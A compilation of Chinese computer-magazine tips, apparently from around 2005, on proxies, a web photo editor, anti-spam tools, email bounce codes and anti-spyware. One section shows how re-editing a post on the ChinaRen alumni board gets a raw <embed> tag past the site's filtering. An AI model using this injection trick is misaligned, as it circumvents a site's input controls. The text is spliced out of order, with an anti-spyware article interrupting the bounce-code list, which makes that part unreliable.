- 第二步：选择菜单“使用→启用代理”，代理即设置完毕，如果对此设置不满意，可以通过“使用→停止代理”来取消刚刚设置的代理服务器，设置和取消均无须重启IE即可生效。

## 我懒，我要全自动

能不能把搜索、验证、切换代理等工作全部交给软件，实现全自动呢？

- 第一步：选择菜单“高级→系统设置”，在“常用选项”标签中勾选“随操作系统启动软件”和“自动执行智能代理”（如没有更改过默认设置则可跳过此步）。

- 第二步：切换到“智能选项”标签，勾选“定时自动重新搜索代理”，将右侧的“每隔×小时自动重新搜索代理”设置为1，以保证搜索到的代理不至于失效。

- 第三步：选择菜单“使用→智能代理→启动智能超人”，接下来的一切工作都由“代理超人”帮你搞定。

> 小提示
在个别网络环境中启用“智能超人”功能可能会在验证过程中长时间停止，可以选择菜单“高级→系统设置”，并在“搜索选项”标签中将“搜到×个代理就停止搜索”设置为20左右。

## 打开浏览器就能用Photoshop

在阅读本文前，请先确认你符合以下情况中的一种：
A.电脑配置低，无法使用Photoshop等大型图片处理软件。
B.在外地旅行，用DC拍摄的照片急需处理后与家人分享，却苦于无法找到安装了Photoshop的网吧。
C.只需简单对照片进行一些特效处理，不想购买或安装图片处理软件。
只要你的机器还能上网，这些问题都可以解决，因为我们有IE里的Photoshop。

- 第一步：用IE打开http://guozheimeng.qswx.com/photoshop.asp，进入WEBPS（IE版图像处理工具）页面。

- 第二步：点击页面左上角“选择图片”右侧的“浏览”按钮，在弹出的文件选择框中选择需要处理的图片，确认后点击“上传图片”，稍等片刻后图片就上传至服务器中可供编辑了。

- 第三步：通过“选择图片”下方的“基本操作”栏中的一排按钮，可以对图片进行“反转片”、“补光”、“老镜头”、“减光”、“柔化”、“锐化”、“旋转”、“黑白”和“裁剪”处理（在使用裁剪功能时应注意：框选图片采用两次单击方式，而非传统的拖放）。

- 第四步：照片上如果能留下照片的说明文字该有多好。在“添加文字”中将要加入的文字、颜色、透明度、字体及大小、文字插入图片的坐标设置完毕后，点击“加字”。

- 第五步：把照片加工成“艺术照”，用小小的WEBPS也能做到。在页面右上角的“滤镜效果”中的“艺术滤镜”下拉列表中选择需要的滤镜效果（注意：选中后无须点击其他按钮即开始生成滤镜特效）。

- 第六步：在“改变大小”中填写想要的宽和高，点击“改变尺寸”（建议勾选“锁定比例”）。在“压缩包jpeg”中选择合适的压缩率（建议采用60或70），点击“压缩图片”。

- 第七步：在页面左上点击“保存图片”，在弹出的文件保存框中选定文件保存的位置，即可下载自己的“杰作”了。

你知道吗

### WEBPS的原理

WEBPS使用了ASP组件、HTML和JavaScript技术在用户浏览器中显示一个操作界面的网页，然后将用户在此网页上的操作指令（操作按钮、滤镜特效等）传递给在服务器上运行着的图片处理程序，待服务器上的图片处理完毕后，再将结果返回到用户所见到的网页上，这样看起来就好像一切处理都是通过网页完成的。

## 有QQ 还要Flash播放器干什么

在播放Flash文件时，无论使用什么软件，都是有一个窗口围着动画，看上去很呆板。其实，在QQ里面就有一个可以把这个窗口去掉的Flash播放软件，而且还可以把背景透明化。QQ魔法表情就是用它进行播放的。

打开QQ安装目录，里面的“MagicFlash.exe”文件就是可以透明播放Flash的程序，只要将要播放的Flash文件直接拖到“MagicFlash.exe”文件图标上，就能进行透明播放了（见图1），画面中只有Flash动画，没有边框约束，看起来感觉不错又方便。



你还可以将它作为系统默认的Flash播放器，只要右击一个SWF文件，选择“打开方式→选择程序”，在弹出对话框中点击下面的“浏览”按钮，找到“MagicFlash”文件，再把“始终使用选择的程序打开这种文件”选中。这样Flash默认的播放文件就改成这个透明播放器了（见图2）。



这个播放器有几个特点：它可以使播放的Flash文件一直处在最前面，而且不能关闭，一般没有互动的Flash，它就会等播放完成后自动关闭，无需用户参与；如果Flash有互动内容，就稍有麻烦，只能按下Ctrl + Shift + Esc组合键，打开“Windows 任务管理器”来结束“MagicFlash.exe”的进程了。

## 不是管理员也能在校友录放大片

- 第一步：找到想要在校友录中播放的影片地址，这里以2004年第22期中“开往春天的地铁”为例。

- 第二步：登录 http://alumni.chinaren.com/ 并进入班级，点击页面中的“班级共享→添加文件”（见图1）。



- 第三步：在弹出页面中选择添加链接，在“URL:”后的输入框中的“http://”后随便添加什么，比如“12345”，“说明：”输入框中填写电影名称（如“开往春天的地铁1.wmv”），点击“添加共享”按钮（见图2）。



- 第四步：点击页面中的“班级留言”，在留言列表最上端位置可以看到一行留言：“我刚刚在班级共享里上传了一个好东东：@ 开往春天的地铁1.wmv，大家快去看看吧”（如果没有出现，可以稍候再刷新）。

- 第五步：点击该留言右上角的笔形图标对留言进行编辑（见图3），页面切换至“留言编辑”框中，在编辑框中删掉原来的留言，并输入以下代码（将其中 src="" 中的 “mms://xxxx” 修改为你需要播放的电影的地址）。



```
<embed name="mplayer" type="application/x-oleobject" src='mms://61.175.132.216/vod/开往春天的地铁1.wmv' controls="ControlPanel, StatusBar" width=460 height=268 border=0 autostart=true loop=true>
```

- 第六步：确认代码无误后点击“发表留言”。怎么回事？留言里显示的分明还是刚才写的代码！很失望吧？别灰心，点击这条留言代码右上角的笔形图标进行编辑，但不做任何更改，重新点击“发表留言”，这时在留言列表里便出现了Windows Media Player的播放界面（如果仍无法显示，可以尝试多编辑几次）。

## 小提示

★如果想播放其他格式的电影，请参考本刊2004年第22期《校友录里看大片》一文。

★用上文中的方法可以在留言中播放Flash动画（见图4），代码如下（将src="" 中的 http://xxxx 替换为需要播放的 Flash 文件地址即可）。



```
<embed src="http://news.0451.net/yspd/flash/fun/xiaohua.swf" width=400 height=300 type="application/x-shockwave-flash" quality="high">
```

## 最后给大家几点注意事项：

- 1. 在将大片嵌入留言前建议先把大片的链接放在IE地址栏中打开，测试一下是否可以正常播放。
- 2. 第五步很关键，在重新编辑留言时不要做任何更改。
- 3. “班级共享”中上传的链接不要删除，否则留言里好不容易加入的大片也会一起消失。

(黑龙江 王学工)

## 给IE换上新“冬衣”吧

IE可谓是朋友们触网的必备装备之一。但驰骋于布满荆棘的网络世界，它不免会被各种病毒、木马或是恶意程序弄得伤痕累累，轻则染毒全身，重则卧病不起。这样就直接影响到正常使用网络了，此时你需要给你的IE请位神医来医治百病。

2004年岁末，IE修复专家2005正式推出。它可以全面扫描并修复多达160个可疑位置，彻底查杀3878个恶意脚本及精选的1200种流行木马。如果你的IE遭遇了一些侵害，这位医生可以帮你医治好，还你一个健康而清爽的IE。

首先，打开 http://assistant.3721.com/iehuodong.htm，单击“立即下载”按钮将IE修复专家2005下载并安装到系统中。重启系统后，从“开始”菜单中启动它。

### 1. 一剂偏方 药到病除

如果不想麻烦，可以让修复专家以最佳方案——“一键修复”快速修复你的IE：选择“一键修复”选项卡，接着单击“一键修复”按钮，修复专家会以最佳方案快速扫描并修复IE中所有故障。

### 2. 互动疗法——高级修复

如果嫌“一键修复”太霸道，可以选择“高级修复”，有选择性地对相关项目进行修复。

选择“高级修复”选项卡，此时，修复专家会自动扫描系统，然后以“安全”、“有风险”、“危险”等几个级别给出提示。接着在列表中用鼠标勾选你认为需要修复的项目，最后单击“立即修复”按钮，修复专家就会针对你选择的项目进行修复了。

除上面两招强心剂外，修复专家还能让你方便地编辑“Hosts表”、导出扫描报告，以及“强力修复”（强行将IE还原到系统安装时的状态，即使是有用的修改，也会全部被复原，不建议使用）等功能，这些操作都不难，可以分别在相应选项卡中进行。

### 附表：上网助手IE修复专家与HijackThis对比

| | HijackThis | 上网助手IE修复专家（新版） |
| :--- | :--- | :--- |
| 版本 | 1.98.2 | 1.0.0.2 |
| 是否携带广告 | 无 | 无 |
| 版权方式 | 免费软件 | 免费软件 |
| 是否支持升级 | 不支持 | 在线升级，自动升级 |
| 网站屏蔽 | 不支持 | 上网助手之恶意脚本拦截模块 |
| 是否支持木马病毒扫描 | 不支持 | 支持 |
| 是否支持重启动后自动修复 | 不支持 | 支持 |
| IE外观修复 | 无 | 有 |
| 隐私清理（历史记录） | 无 | 上网助手之隐私清理模块 |
| 扫描项数 | 约112项 | 158项 |
| 恶意代码数量 | 未知 | 流行库1102种，木马全库约14000种 |

(安徽 呆瓜)

## 漂亮英文字体，请问你叫什么

在网上总会看到一些漂亮的、不知名字的英文字体。有时，在临摹高手美术作品时，也会遇到一些如图1这样稀奇古怪、但很漂亮的字体，图片上是什么字都很难认出来，更别说要找到这种字体了，怎么办呢？只要到 http://www.myfonts.com/ 网站（在线完成搜索、试用或者购买字体，目前只支持英文字体，图片最好简单些）就能快速认出图片上的文字，还可以找到它究竟是什么字体！



- 第一步：连接上网，准备好包含需要识别字体的图片或图片URL地址（以图1为例，图片尺寸在360×275像素左右，最好的尺寸在100像素，支持的图片格式有JPG、GIF、TIFF、BMP、PNG格式），打开 http://www.myfonts.com/WhatTheFont/。

- 第二步：点击“Local file”后的“浏览”按钮，在本地打开准备好的图片，或在URL栏里填入该图片网络路径，点击“Upload Image”按钮。

- 第三步：稍等片刻，出现“Search Options”页面，分竖式列为三排，在“Include in Search”处选择需要搜索的字符；在“Glyph”处列出了由图片拆解出来的字符轮廓（见图2），在“Character”列出了该字符轮廓所对应的字母。可以看出，系统已经把该图片的字符识别出来了，现在需要做的就是查找这种字形所使用的字体，可以直接点击下面的“Search”开始搜索。



很快结果就出来了，该图片中的字体名称是“Tannarin BT”。知道了字体名称，去Google或百度搜索用它进行搜索下载吧！

(福建 曾春红)## 垃圾邮件，你真的会处理了吗（上）

## MailWasher Pro小档案

| 项目 | 内容 |
| :--- | :--- |
| 软件版本 | v 4.19 |
| 软件大小 | 3129 KB |
| 软件性质 | 共享软件 |
| 运行平台 | Windows 9x/NT/2000/XP |
| 下载地址 | http://www.onlinedown.net/soft/10261.htm |

MailWasher是国内、外众多网友一致推崇的防垃圾邮件工具。根据实际测试，有了它的帮助，编辑部大部分同事收到的垃圾邮件数量已从每日400~500封骤减至50封左右！更重要的是它可以根据你设定的黑名单自动智能学习识别，很快就能脱离你的指导，自行识别垃圾邮件，识别效率极高！

## MailWasher的五大绝招！

- ★邮件退回：它能将垃圾邮件退回发信人，让他以为这个地址是无效的，从而将你的Email地址从其列表中删除，让你以后再也不会收到来自他的垃圾邮件；
- ★分析邮件：MailWasher能分析信箱中的邮件，发现可疑病毒、垃圾邮件，它可以很智能地用红色提示你，并自动将邮件列为“准备删除”的邮件，大大简化操作步骤；
- ★黑名单：和大多数邮件过滤软件一样，MailWasher可以导入收集到的垃圾邮件列表，避免了手工添加的繁琐，而且有不少网站为其专门制作相应的黑名单；
- ★好友列表：你可以将确认的、来自朋友的Email地址添加到软件中，避免错误添加；
- ★过滤器：极为强大的一个功能，能够通过设置各种规则，帮你悄无声息地处理垃圾邮件！

## 实例1：快速上手，认识MailWasher

第一步：将邮箱账户告诉MailWasher。

安装并启动MailWasher，在欢迎界面中选择“automatic setup”（自动设置）（见图1）。MailWasher将自动从邮件接收程序（Outlook）中提取邮箱账号信息，全部加载后，点“ACCEPT”按钮完成设置，在“登录邮箱”设置窗口输入从Outlook中提取的邮箱账号密码。

该软件不能检测并导入Foxmail账号信息，此时需要点击“Tools→Accounts”，在弹出窗口中单击“Add”按钮添加账号，在弹出的账号类型选择窗口中选择“POP3”，接着单击“OK”按钮打开账号设置窗口，在“Mail Account”（邮件账户）选项卡中输入账号名称，比如“工作邮件”等；接着进入“Incoming Mail”（接收邮件）选项卡，请按照实际情况填写；如果希望使用MailWasher的邮件退回功能，可进入“Bouncing&outgoing mail”（退回和外发邮件）选项卡，勾选“Enable bouncing of messages from this account”（开启这个账号的邮件退回功能），然后在“Email Adress”后输入你的邮件地址、在“SMTP server address”项后输入SMTP服务器地址。最后按OK按钮完成账号添加（见图2）。

> 小提示：如果你使用了Hotmail或MSN信箱，在建立账户时请选择Hotmail类型，而不是POP3类型，MailWasher会帮你自动处理。

## 垃圾邮件，你真的得罪我了（下）

## 在OE中抵御垃圾邮件

1.  阻止垃圾邮件发件人
2.  利用邮件规则对付狡猾的垃圾邮件

当收到垃圾邮件后，如果垃圾邮件的发件人是固定邮件地址，最直接的方法便是在OE右侧邮件列表窗格选中该邮件，接着点击菜单命令“邮件→阻止发件人”。

现在许多垃圾邮件的邮件地址都是伪装的，每封信都会变换不同的地址，因此利用阻止发件人的方法就不太适合了，这时邮件规则就派上用场了。

在OE右侧邮件列表窗格选中垃圾邮件，接着点击菜单命令“邮件→从邮件创建邮件规则”，在弹出窗口中可以根据该垃圾邮件变化的部分，比如：主题、正文都会有一样的词语（如：手机魔卡、深圳市XXX公司等），然后在“选择规则条件”列表中勾选“若主题行包含特定的词”或“若邮件正文包含特定的词”，在“选择规则操作”中勾选“从服务器上删除”（见图1），在“规则描述”中单击“包含特定的词”打开“键入特定文字”窗口，输入那些有规律的词语即可。

## Just Do It

有些垃圾邮件在邮件发件人、收件人这些字段的地方都是空白的，请利用电子邮件地址中间一定会有“@”符号的特性，新建一个规则，让OE自动将那些发件人和收件人都不包含“@”符号的邮件自动从服务器上删除。

## 3. 来来来，快速增强OE的黑名单

OE不能像Outlook和Foxmail那样简单地批量添加阻止的发件人，默认只能一个一个地添加邮件地址。下面介绍一下如何能够实现黑名单的批量添加。

第一步：首先到 http://www.newhua.com/cfan/200504/junksenders.rar 下载制作好的脚本程序和最新的垃圾邮件黑名单，然后将压缩包解压缩至任意目录，比如：C:\junksenders。

第二步：确认OE中已经添加了至少一个黑名单，接着点击菜单命令“工具→选项→维护→存储文件夹”，这里会显示类似“C:\Documents and Settings\用户名\Local Settings\Application Data\Identities\{0F7E4347-8BC7-4A43-BC28-A9D60E8FD3CA}\Microsoft\Outlook Express”，将其中的“{0F7E4347-8BC7-4A43-BC28-A9D60E8FD3CA}”（每台电脑都不会相同）复制下来。

第三步：运行下载得到的VBS脚本，首先输入刚才复制的OE标识码（见图2），运行完毕后该脚本同一目录会生成个名为Junk Senders.reg的注册表文件。如果你的系统为Windows 2000/XP，请编辑该注册表的第一行“REGEDIT4”为“Windows Registry Editor Version 5.0”，如果系统为Windows 98则不予修改。最后，双击这个REG文件，导入注册表即可完成黑名单批量添加（见图3）。

## 在Foxmail中抵御垃圾邮件

Foxmail 5.0中提供了规则过滤、黑白名单、贝叶斯过滤等监测垃圾邮件的功能（见图4），其中除规则过滤不必设置外，其它几个判别方法都大有文章可作。

1.  批量导入黑名单

首先右击收到的垃圾邮件，接着选择“加入黑名单”。但这样成效太慢，还记得我们上期提供的垃圾邮件黑名单吗？下面就来把它导入Foxmail黑名单，瞬间让Foxmail防垃圾邮件能力大跃进。

第一步：到 http://www.newhua.com/cfan/200503/spam.rar 下载垃圾邮件黑名单，并将其解压缩。接着启动Excel，点击菜单命令“文件→打开”，定位并打开解压缩后的Blacklist.txt文件，Excel会弹出“文件导入向导”，在步骤1窗口中选择“分隔符号”项，单击“下一步”按钮后，在“分隔符号”项下只勾选“空格”（见图5）。然后单击“完成”按钮。

你会发现A列中全部是垃圾邮件地址了，将光标定位到A列标题栏，光标变为向下的实心箭头，按下鼠标左键，A列便被全部选中了。接着按下Ctrl + C组合键进行复制。

第二步：用记事本打开Foxmail安装目录下AntiSpam文件中的Black.lst文件，将刚才复制的垃圾邮件地址粘贴过来即可，当然别忘记去除最上面的那些无用字符，比如“//”、“[Blacklisted]”，使该文件的首行就是邮件地址。

## 2. 快速“点亮”贝叶斯过滤

对于刚刚安装的Foxmail或接收的邮件太少时，贝叶斯过滤法不能使用，因为它必须在分别学习1000封正常邮件和1000封垃圾邮件之后才能开始工作。其实可以直接将已经能使用贝叶斯功能的网友的Foxmail安装目录下AntiSpam文件夹中的corpus.dat和corpus.idx文件拷贝到你的相应目录中，这两个文件也可以到 http://www.newhua.com/cfan/200504/bayes.rar 处下载获得。最后，在Foxmail的“反垃圾邮件设置”中切换到“贝叶斯过滤”标签，勾选“使用贝叶斯概率模型判定接收的邮件是否垃圾邮件”一项。

> 小提示：“远程邮箱管理”将垃圾邮件扼杀在服务器上
> 如果你经常收到垃圾邮件，建议在接收邮件前单击Foxmail工具栏上的“远程管理”按钮打开“远程邮箱管理”，在这里不仅可以通过右击邮件将垃圾邮件地址加入黑名单，而且还能选择“服务器→在服务器上执行”，直接在服务器上将垃圾邮件删掉，而不是收到本地后再处理。

## 实例5：MailWasher最强悍的秘密武器——过滤器

使用黑名单的方法过滤垃圾邮件，好是好，但搜索出来的垃圾邮件还是会显示出来，只是颜色为红，并添加了删除记号，同时大部分垃圾邮件每次都会变换不同的伪装发件地址，因此只是用黑名单还不够。如果想彻底封杀来自某些地址的邮件，或是包含某些内容的垃圾邮件，让它们根本不出现，在不知不觉中就被清理掉了！这就要用到MailWasher的精髓功能——Filters（过滤器）了。

第一步：用MailWasher检查邮件，在某封垃圾邮件上右击并选择“View Complete Header”（查看完全信件头），在弹出窗口中查看邮件的信息，一般选择邮件主题做为过滤的关键词，也就是“Subject”后面的词语，选中它并右击，选择“复制”（也可以选择其中部分词语，但注意的是不能复制标点符号），然后关闭这个窗口。

第二步：在主界面右侧工具栏中进入“Filters”选项卡，单击“Add”按钮，在弹出窗口中按照图6所示进行设置。这样今后一旦收到主题为“特价优惠活动”的邮件，MailWasher便会自动将其从服务器中删除，你根本不会看到它。

第三步：在设置过滤关键词时，经常会出现这样的问题，比如：垃圾邮件主题往往会很容易和正常邮件的主题混淆，比如“请教”之类的，所以最好为一个过滤器多加几条规则，使MailWasher更聪明。分析垃圾邮件后，可以总结出以下一些特点：

- ★邮件主题常常会选择容易让你以为是好友来的邮件的词语；
- ★邮件主题往往相同或相近，比如“精密测量仪”及“激光精密测量仪”；
- ★邮件主题不同，但是邮件内容相同，比如内容都是说赚钱、上某个网站之类的内容；
- ★邮件的收信人地址不是你的邮件地址。

因此，你可以在“View Complete Header”窗口下面的邮件内容中寻找一些更通用的词语，比如：邮件主题怎么变，但垃圾邮件内容中所提的公司名称、人名、网址等不会变，选择其中一个复制一下，然后在编辑规则的窗口中单击“Rules”项下的“More Rules”按钮，首先在第一个下拉菜单中选择“The body”（邮件内容），接着在第二个下拉菜单中选择“Contains”（包含），在第三个输入框中粘贴刚才选中的文字。最后在“Apply this filter when”后选择第一项，也就是当满足以下所有规则时应用这个过滤器（见图7）。

## Just Do It

- ★对于邮件主题经常变换的垃圾邮件，可以将邮件主题不变换的部分做为邮件主题的关键词，接着再从邮件内容中选择固定不变的词语组合成一个过滤器。
- ★设置一个邮件接收人不是你的邮件地址的过滤器，请选择“The “To” field”和“does not contains”，后面输入你的邮件地址，如果有多个邮件，则应把你的邮件地址一一设置成规则。
- ★在主界面依次点击“Help→About”，在弹出窗口中按下最下方的链接，可以找到一个Filters.txt的文件。怎么样？知道怎么批量添加过滤器了吧？

（LX 阮征）

> 小提示
> 其他好友列表也是保存在前面那个Blacklist.txt文件中的，整个语句段开头以“[Whitelisted emails]”开始，下面每个邮件地址占一行，因此你也可以手动添加。

## 在Outlook中抵御垃圾邮件

前面我们在《垃圾邮件，你真的惹恼我了！（上）》中介绍了如何导入黑名单的方法，下面再为大家提供一些增强Outlook反垃圾邮件能力的方法。

## 1. 增强Outlook 2003的“抗垃圾”能力

新安装的Outlook 2003对于垃圾邮件抵御能力比较薄弱，微软其实也在定期更新其垃圾邮件库，你可以到 http://download.microsoft.com/download/a/d/d/addc1a61-68be-45a1-a780-8b4d668bdc09/office2003-kb832333-client-enu.exe 下载专门针对Outlook 2003补丁程序（仅适用于Windows 2000/XP）。

## Just Do It

Outlook的邮件规则比OE的更强大、更好用，如果你发现某个经常变换假地址的垃圾邮件，可以右击它并选择“创建规则”，在弹出窗口中单击“高级选项”，你会发现这里的选项比OE丰富很多。

## 2. 轻轻一击，垃圾邮件录入黑名单

在Outlook中如果发现某个邮件是垃圾邮件，可以右击邮件并选择“垃圾邮件→将发件人添加到阻止发件人名单”。其实你完全可以在工具栏设置一个专门的按钮，以后只要选中垃圾邮件，然后再单击它即可完成名单添加操作。

点击菜单命令“视图→工具栏→自定义”中选择“命令”标签，在其中找到“动作”，然后把右侧的“将发件人添加到‘阻止发件人名单’”用鼠标拖到上面的工具栏中即可。

## 3. 给Outlook服贝叶斯补药

尽管你对Outlook进行了以上增强，可能还是发现它并不那么智能，每天仍有不少漏网之鱼，既然大家都推崇贝叶斯，为何不让Outlook也能用上它呢？免费的SpamBayes可以做为插件集成在Outlook中，在使用它以后，我们以前每天会收到600~700封垃圾邮件，现在只有4~5封逃过了它的法眼（但只要让它学习一下，即可将它们加入数据库）。

**SpamBayes小档案**

| 项目 | 内容 |
| :--- | :--- |
| 软件版本 | 1.01 |
| 软件大小 | 2.9 MB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 98/Me/2000/XP |
| 下载地址 | http://jaist.dl.sourceforge.net/sourceforge/spambayes/spambayes-1.0.1.exe |

第一步：首先关闭Outlook，安装完软件后启动Outlook，你会发现窗口上方会多出一个工具栏，这时建议你先对已经接收的邮件进行一下整理，特别是将垃圾邮件都放置到“垃圾邮件”文件夹中，保证“收件箱”没有垃圾邮件存在，这样会便于SpamBayes学习，提高其智能程度。

第二步：单击新增的工具栏的“SpamBayes”按钮，在弹出菜单中单击“SpamBayes Manager”（见图6），这时会首先弹出设置向导窗口（见图7），选择第二项后按下“Next”按钮。

第三步：在出现的如图8窗口中按下第一个“Browse”按钮选中正常邮件所在文件夹，比如收件箱等。按下第二个“Browser”按钮后选中“垃圾邮件”，这样就告诉了SpamBayes通过收件箱中的邮件学习哪些是正常邮件，通过“垃圾邮件”学习哪些是垃圾邮件。

第四步：单击“Next”按钮，SpamBayes便开始学习了。学习完成后在弹出的窗口中按下“Next”按钮，在之后的“Folders that receive new messages”（选择接收新邮件的文件夹）窗口中单击“Browse”按钮并选择你用来接收新邮件的文件夹，比如：收件箱及自己设定的其他文件夹。

第五步：在接下来的窗口中你要通过按下“Browse”按钮告诉SpamBayes，将垃圾邮件和不能确认的邮件（也就是可能的垃圾邮件）放置到哪个文件夹中，一般设置为“垃圾箱”。这样就完成了SpamBayes的设置。

第六步：为了让SpamBayes开始工作，单击工具栏中的“SpamBayes→SpamBayes Manager”，在弹出窗口的“General”选项卡中勾选“Enable SpamBayes”。另外，在这个窗口中你还可以对SpamBayes进行详细的设置与调整。

第七步：单击Outlook工具栏中的“发送/接收”按钮接收邮件，观察收件箱中的新邮件，你会发现垃圾邮件在收下后一会便自动转到“垃圾邮件”文件夹中。对于SpamBayes漏掉的垃圾邮件，则可通过Ctrl键多选它们，然后按下工具栏的“Delete As Spam”按钮将其移至“垃圾邮件”文件夹，同时SpamBayes会对其进行学习。在接收完毕后，请打开“垃圾邮件”文件夹，如果有些正常邮件被错误认为是垃圾邮件，选中它，然后单击工具栏“Recover from Spam”按钮，邮件即被恢复到收件箱。

> 小提示
> SpamBayes同时也可搭配其他邮件客户端（如OE等）来过滤垃圾邮件，你需要在安装第二个界面中选择“Server/Proxy application, for all other POP based mail client, including Outlook Express”，这样软件运行后会作为邮件客户端程序和邮箱之间的一个过滤器，邮件在到达邮件客户端先在这里进行过滤，并在垃圾邮件标题前加上特殊标记，再配合OE的邮件规则即可完成垃圾邮件的过滤。

（四川 飞翔鸟）

## 不要乱发退信的信件

平时经常会收到一些莫名其妙的退信，不知道是什么原因，也不清楚如何解决。其实只要通过退信信息提示就能大概判断出造成退信的原因，当然，每个邮件服务器定义的退信信息也会有所区别，即使是同一个邮件服务器上的退信信息也多种多样，这里挑选出一些常见的信息介绍给大家。

注：在下面“退信信息描述”中，由于不同邮件系统有不同表达方式，所以我们罗列出来，中间用逗号隔开，供你查阅。

1.  no such user, illegal alias, account inactive, user not found, Invalid recipient, not a valid mailbox, cannot be delivered, unable to relay, invalid user, user unknown
    **退信原因：** 对方用户名不存在。
    由于发件人中的信箱地址有错误，发送服务器无法找到要投递的邮件地址。
    **解决方法：** 由于邮件服务器在它的数据库中无法找到要投递的用户地址，因此邮件被退回。重新确认该地址的正确性，例如查看地址中是否填写了中文字符或其他不支持的字符。确认无误后重新投递即可，如果仍出现此错误则说明地址有误，请询问收信者本人正确的邮件地址。

2.  disabled（例：softer@163.net is disabled）
    **退信原因：** 账号被禁用（冻结或删除等）。
    由于此收件人账户被禁用或停止使用，也有可能是因为长时间未登录使用过的账号而被邮件服务器冻结或删除。
    **解决方法：** 造成这种退信的原因是三种：一是有的邮件服务提供商对超过固定天数未登录免费邮箱的账户自动禁用或删除，如果被删除就没有补救措施，一旦删除就不能恢复原来账户；二是收费邮箱没有按时续费而被冻结，只要收件方把未交的费用补上就可以恢复正常使用；三是由于该收件人违反了邮件服务提供商规定的邮箱使用服务协议，例如乱发垃圾邮件等行为，而被禁止使用该账户。

3.  **退信信息描述：** quota exceed, hard limit, exceeding storage allocation
    **退信原因：** 对方邮箱空间不够，无法接收新邮件。

# 反间谍软件之“皇家近卫军”——Microsoft AntiSpyware

Microsoft AntiSpyware 不仅有清除间谍软件的功能，还能清除上网记录，包括常用软件的使用记录等信息，删除得非常彻底。另外该软件还有一个浏览器初始化复原功能，只要保存了一次浏览器信息，以后遇到类似被恶意网站霸占的问题直接启动 Microsoft AntiSpyware 还原即可快速解决问题，软件自带的几个小工具也非常实用。

## Microsoft AntiSpyware 小档案

软件版本:BETA 1.0
软件大小:6023 KB
运行平台:Windows 2000/NT/XP/2003
下载地址:http://download.microsoft.com/download/8/1/5/815d2d60-49b5-44dc-ae35-fca2f2c6f0cc/MicrosoftAntiSpywareInstall.exe

## 实例 1:清除本机间谍广告并启用实时保护

第一步:启动 Microsoft AntiSpyware，从界面上可以看出需要四步完成全部操作。点击“NEXT”按钮是对软件的自动更新进行设置，选择“YES”即可，这样就能随时保证所使用的是最新版本了(见图1)。



第二步:上网时发现有恶意间谍广告攻击时，软件会发出警告信息。你可以根据实际需求选择相应的“Allow”(允许)或“Block”(禁止);“Ignore”(忽略)或“Stop Service”(停止服务)。在接下来的窗口中直接点击“Run Scan Now”即可马上对系统进行扫描了。扫描后，每个间谍软件左边会给出应对方法，一般保持默认选项即可，最后点“Continue”清除发现的间谍广告(见图2)。



清除完毕后需要重启电脑使之生效。如果不选择重启则会自动进入到IE初始化参数保存设置，后面会介绍其使用方法。

## 实例 2:还原被恶意篡改的浏览器

要想使用 Browser Hijack Restore 恢复默认设置，前提要对干净无毒的浏览器用 System Explorers 保存过设置(请看下面的小提示)。

第二步：当浏览器被恶意篡改后选择“Advanced tools”下的“Browser Hijack Restore”工具，然后在希望恢复的项目前打勾。

第三步：选择完毕点击下方的“Restore”按钮即可马上恢复到干净的浏览器设置了。

## 小提示

用 System Explorers 保存默认设置

在主界面中“Advanced tools”有几个工具，其中“System Explorers”可以查看浏览器信息并保存默认设置的功能。点击后从左边点“IE Settings”可以看到主页地址、默认搜索引擎等信息，如果这时浏览器是干净的，就可以通过点下方的“Save these settings as default”来保存设置以备后用了。

另外，启动 AntiSpyware 的“Advanced tools → Tracks Eraser”工具可清理很多用户信息和“痕迹”，例如输入的用户名和以前访问的网址等。国内外一些软件往往以清理这些信息为由进驻系统，但它们本身却带来更多垃圾，甚至是木马。Tracks Eraser不仅可以清除微软产品所记录的信息，还能清除很多常见软件的记录信息。

小编有话说：Microsoft AntiSpyware在清除间谍广告方面并不比其他软件强不少，其集成的多个工具可以省去我们在电脑中安装多个第三方软件，毕竟软件多了兼容性就没有了保证，系统也会更加不稳定。

注意：这款软件会扫描一些常用软件中的广告程序，比如会把FlashGet列为广告程序，会显示“Remove”这个按钮。这时你要注意，如果按下这个按钮会删除程序，所以不要承受手按它。此外，国外一家网站针对Microsoft AntiSpyware和另外两款知名软件Ad-Aware和SpyBot做了评测比较，比较结果显示Microsoft AntiSpyware具有比较强大的能力，您可以到下面的网址看看：http://www.appbeta.com/modules.php?name=News&file=article&sid=190

（回头浪子）

## 4. not welcome, content rejected, message blocked, recipient reject

退信原因:对方拒收邮件，对方对你发给他的邮件设了限制，或对方邮件服务器不支持你的邮件中涵盖的特殊服务。

解决方法:出现“not Welcome”、“message blocked”和“content rejected”主要是接收者在邮箱中设定了过滤器，并且你所寄发的邮件中如“发件人”、“接收者”、“主题”、“邮件容量”中的一项或若干项刚好符合该接收者的过滤条件，因此导致邮件在投递后被对方系统拒收。请把自己所投递的邮件做适当修改，发送“主题”尽量使用比较中性的词语，如“你好”等，并且控制邮件容量不要过大。由于用户可以在过滤器中限制邮件大小，如果有比较大的邮件投递时出现错误，可先把该邮件中的附件用压缩软件进行压缩处理后再行发送。“message blocked”的情况也有可能是对方服务器对发送方邮件的发送做了限制。

## 小提示

经常给《电脑爱好者》投稿的读者可能遇到过稿子被《电脑爱好者》的邮件服务器当作含广告或反动信息的邮件而过滤掉的情况，解决方法和此类似，就要对主题及附件大小等信息做适当修改，例如主题中写明“投稿”字样，附件容量也不要过大，这样才能更好地保证自己的稿件完整、及时地到达编辑手中。

## 5. host not found, bad host, domain unreachable, connection refused

退信原因:无法查找对方服务器名称(域名或主机)，主机或对方域名有错误，或无法正确被系统解析，导致投递出错。

解决方法:该信息的产生很大原因是由于@后面的域名写错了，例如“sina.com”错写为“@sian.com”或把“@163.net”错写为“@hot. 163.net”，另外@和域名之间多加“.”也会产生该提示，请确认域名书写的正确性再发送。

## 6. error in command, syntax error

退信原因:无法识别错误命令，邮件系统指令错误。

解决方法:其原因多数是由于使用的软件或发送系统在投递连接对方系统时，对方系统无法识别此软件或发送方系统的指令系统，导致发送错误，例如使用了不常用的、不规范的邮件接收发送软件。请使用常用软件如Outlook Express或Foxmail等客户端进行邮件编辑，或者直接使用Web方式发送邮件，减少出错可能。而“syntax error”的退信信息，还可能是由于发送者填写接收者地址时输入了非法字符如“*”、“/”、“~”等导致无法成功发送。

## 7. exceeds, maximum message size

退信原因:发送的邮件过大，造成接收方服务器拒收。

解决方法:通常此类错误都是由于接收方系统不允许他们系统中的用户接收过大的邮件，采取了保护机制而做出的限制。因此，用户可以把过大的邮件用Outlook Express的邮件分拆功能进行分拆发送，或对较大的附件进行分割压缩。

